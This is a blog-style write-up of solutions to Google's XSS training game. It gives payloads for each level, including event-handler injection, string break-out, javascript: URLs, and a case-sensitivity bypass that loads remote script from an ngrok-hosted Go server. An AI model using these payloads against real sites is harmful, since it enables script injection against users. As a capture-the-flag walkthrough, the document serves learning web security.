





# xss-game-appspot
[xss-game-appspot](https://xss-game.appspot.com) is an "XSS game area" (Great Mother Google sait it on it's home page so i suppose it can be correct) made by Google. It consist of 6 challenges in which you have to find the correct XSS payload to prompt an **alert()**.
It's designed for Web Developers who aren't so much skilled in security, but i'm starting to dive deeper into XSS, so i made this anyway.
It was kinda easy, except for Level 4 which was a pain in the ass cause i was a dumbass.

## Level 1
This level was the classic XSS example that anyone has seen at least once in a lifetime: there is a textbox and a submit button, once the button is pressed the text in the textbox is reflected on another page.



A simple **\<script>alert()\</script>** will make it.

## Level 2
In this level we have a simulation of a chat: the text in the chat textbox is posted as a new message, and everything is done by JS, so the **\<script>alert()\</script>** won't be enough, as the page is not being loaded, and the script is not being fired. So we need a way to launch the script.



The simplest way to launch it is to create an element with a DOM Event, so once the page attach our payload to the chat, we'll just need to trigger the Event.
I'm a huge fan of the **\**, because the first time i've discovered it (3 or 4 years ago) i spent HOURS before realising that.

(Fun fuct: When i was writing this report, i discovered that the challenge in which i discovered this payload is this challenge: i made it when i was starting studying Cybersec things a long time ago. So i made this challenge, probably without completing it, i forgot about it and i made it a second time. Yeah, i know, i'm a genius)

My outstanding moves aside, the payload above work really well, but other payloads could be:
+ **\<p onmouseover="alert">XSS\</p>**
+ **\<p onclick="alert()">XSS\</p>**
+ etc..

## Level 3
In this level we have a small set of images, and depending on the location.hash value, the correct image is loaded. Our only entry point is the anchor in the url, so we have to inject our paylod there.



Taking a look at the source code of the page, we find the chooseTab() function:
```
function chooseTab(num) {
        // Dynamically load the appropriate image.
        var html = "Image " + parseInt(num) + "<br>";
        html += "";
        $('#tabContent').html(html);

        /*More code irrelevant for this level*/
```
This function take as an argument "num", and put it in the src attribute of an image, so "num" must be the value of the anchor, as we can also see here:

```
chooseTab(unescape(self.location.hash.substr(1)) || "1");
```

So our payload should close the src attribute and add an Event to trigger the alert(). I used **4' onerror='alert()'>** because i'm an onerror-fag, obtaining the URL **https://xss-game.appspot.com/level3/frame#4' onerror='alert()'>**

(Fun fuct pt.2 i spent HOURS trying to find where the payload was being injected because i was seeing it only in the src attribute of the challenge's iframe, and i wasn't really getting how everything was working.. until i realised that the img with the payload was just below the elements i was looking at)

# Level 4
In this level we have a simple input box which take as an input something and use it to create a timer.



The input submitted is passed via get request as the "timer" parameter:
```
    <form action="" method="GET">
      <input id="timer" name="timer" value="3">
      <input id="button" type="submit" value="Create timer"> </form>
    </form>
```

Which is rendered with a template in a Django application and then sent back to us:
```
def render_template(self, filename, context={}):
        path = os.path.join(os.path.dirname(__file__), filename)
        self.response.out.write(template.render(path, context))

timer= self.request.get('timer', 0)
self.render_template('timer.html', { 'timer' : timer })
```

The actual page use this input to call a function using the onload() Event:
```

```

So our scope is to trick the page to call startTimer() successfully AND fire our XSS: first of all, we have to close the brackets with **');** assuring that startTimer() don't trigger any error, and then we append our **alert();//**, also commenting out the rest of the img tag (We don't have to close it, the browser will do it for us). So the final payload is **'); alert();//**

# Level 5
In this level we can sign up for the beta of a product. After clicking the "Sign up" on the first page (Which is actually kinda useless), we find an url with a "next" parameter. The value of "next" is rendered with a template like the example above, and its value is placed inside a link.

```
    <a href="{{ next }}">Next >></a>
```

So to fire the XSS we have to put our payload in the URL as the "next" parameter, but Events like onerror, onclick, ecc.. won't work. The only way to trigger it is to use the javascript scheme **javascript:alert()**, so when the user click the link, the alert will fire.

Our final URL will be: https://xss-game.appspot.com/level5/signup?next=javascript:alert()

# Level 6
In this level we have a static single page. No input, no link, nothing. Just a paragraph and an image.



Looking at the source code we find out that the page actually creates a script and load its resources from the anchor in the URL, so changing it will allow us to load arbitrary Javascript from a server.
```
function includeGadget(url) {
      var scriptEl = document.createElement('script');
 
      // This will totally prevent us from loading evil URLs!
      if (url.match(/^https?:\/\//)) {
        setInnerText(document.getElementById("log"),
          "Sorry, cannot load a URL containing \"http\".");
        return;
      }
 
      // Load this awesome gadget
      scriptEl.src = url;
 
      // Show log messages
      scriptEl.onload = function() { 
        setInnerText(document.getElementById("log"),  
          "Loaded gadget from " + url);
      }
      scriptEl.onerror = function() { 
        setInnerText(document.getElementById("log"),  
          "Couldn't load gadget from " + url);
      }
 
      document.head.appendChild(scriptEl);
}
```
But, as we can see from the code above, there is a simple regex that block every http/https URL from being loaded. However, this filter block only lowercase URLs, so using HTTPS instead of https is ok.

The only step remaining is to set up a simple server which could serve our XSS. As a Go lover, i set it up with Golang
```
package main

import (
	"fmt"
	"log"
	"net/http"
)

func handler(w http.ResponseWriter, r *http.Request) {
	fmt.Fprintf(w, "alert()	")
}

func main() {
	http.HandleFunc("/", handler)
	log.Fatal(http.ListenAndServe(":8080", nil))
}
```

But the only problem is: this server is on my private network, how can i make it public? I decided to use Ngrok, that create a public URL to my server, and passing it to the challenge's URL.

My final URL was: https://xss-game.appspot.com/level6/frame#HTTPS://CodeGeneratedByNgrok.ngrok.io/

# My review
This challenge was quite easy compared to a lot of other challenges outside in the web, but is very very good for beginners. I found it on youtube and because i had so much spare time i decided to test it out. It was a good way to test out my basic knowledge of JavaScript, since i didn't touched it for a lot of time. And the [cake](https://www.google.com/about/appsecurity/learning/xss/) is very cool